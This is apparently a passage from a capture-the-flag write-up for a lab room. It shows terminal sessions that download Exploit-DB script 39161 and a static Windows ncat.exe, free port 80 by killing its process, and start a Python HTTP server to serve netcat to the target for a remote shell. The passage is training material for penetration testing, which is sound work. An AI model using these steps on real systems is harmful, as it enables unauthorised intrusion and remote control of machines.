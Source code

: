 For those interested in an alternative approach, we can exploit the vulnerability without using Metasploit. First, download the exploit script and a static version of Netcat.

```bash
root@ip-10-10-95-132:~/workspace# wget https://www.exploit-db.com/download/39161
--2024-09-19 15:01:41--  https://www.exploit-db.com/download/39161
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2515 (2.5K) [application/txt]
Saving to: \u201839161\u2019

39161                                      100%[=====================================================================================>]   2.46K  --.-KB/s    in 0s

2024-09-19 15:01:41 (358 MB/s) - \u201839161\u2019 saved [2515/2515]

root@ip-10-10-95-132:~/workspace# mv 39161 39161.py
```

```bash
root@ip-10-10-95-132:~/workspace# wget https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
--2024-09-19 15:04:56--  https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
Resolving github.com (github.com)... 4.208.26.197
Connecting to github.com (github.com)|4.208.26.197|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: \u2018ncat.exe\u2019

ncat.exe                                       [ <=>                                                                                  ] 298.47K  --.-KB/s    in 0.005s

2024-09-19 15:04:56 (61.7 MB/s) - \u2018ncat.exe\u2019 saved [305632]

root@ip-10-10-95-132:~/workspace# mv ncat.exe nc.exe
```

The exploit seems to require a http server on port 80, but the attack box used for this room has that port occupied by the browser VNC connection.  
The following is a workaround to free port 80.  
Connect to your AttackBox via VNC (remmina, RealVNC or tightvnc for example). Use port 5901 and the public ip, username and password of your attack box.  
Then you will work on your new VNC connection, not in the browser. Close browser VNC window.

```bash
root@ip-10-10-95-132:~/.vnc# fuser -n tcp 80
80/tcp:               2593
root@ip-10-10-95-132:~/.vnc# kill -TERM 2593
```

Start a python HTTP server to serve the netcat executable

```bash
root@ip-10-10-95-132:~/workspace# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

